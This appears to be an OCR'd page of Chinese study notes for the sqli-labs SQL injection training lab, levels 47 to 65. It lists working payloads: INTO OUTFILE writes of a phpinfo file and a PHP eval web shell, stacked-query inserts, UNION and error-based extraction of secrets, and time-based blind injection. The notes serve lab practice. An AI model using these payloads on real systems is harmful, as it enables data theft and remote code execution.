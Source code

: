     3. ?sort=1 into outfile "c:\\\wamp\\\www\\\sqllib\\\test.php  //导入文件

       ?sort=1'into outfile "c:\\\wamp\\\www\\\sqllib\\\test.php"lines terminated by 0x3c3f70687020706870696e666f28293b3f3e2020--+  //16进制为phpinfo

48. ORDER BY不回显：

    1. ?sort=1 into outfile "C:\\inetpub\\target\\sqlilabs\\Less-48\\test.php"  
    2. ?sort=1 into outfile "C:\\inetpub\\target\\sqlilabs\\Less-48\\test2.php"lines terminated by 0x3C3F70687020406576616C28245F504F53545B2778275D293B3F3E--+   //加密信息为eval_$post['x']

49. 同上

50. order by stacked injection: ?sort=1;insert into users values(15,1,1) --+ //order by + 堆叠注入

51. 多单引号

52. 无回显纯数字

53. 多单引号，无回显

54. 回显get综合实战 

    1. ?id=1' order by 3 --+   //先用orderby尝试出哪个是sql语句
    2. ?id=-1' union select 1,concat((select table_name from information_schema.tables where table_schema='challenges')),3 --+   //查表
    3. ?id=-1' union select 1,concat((select column_name from information_schema.columns where table_name='xkizvxzoay' limit 1,1)),3 --+  //查列
    4. ?id=-1' union select 1,concat((select concat(secret_3R7C) from challenges.u5b66pwa01 limit 0,1)),3 --+   //查数据

55. 回显get综合实战 括号
56. 回显get综合实战 单引号括号 
57. 回显get综合实战  双引号
58. 无回显get实战：?id=1' union select extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema='challenges'),0x7e)) --+  //其他同上
59. 无回显get实战：纯数字
60. 无回显get实战：双引号括号
61. 无回显get实战：单引号双括号
62. 延时注入：?id=1%27)and If(ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema=%27challenges%27),1,1))=79,0,sleep(10)) --+
63. 双引号
64. 双括号
65. 双引号括号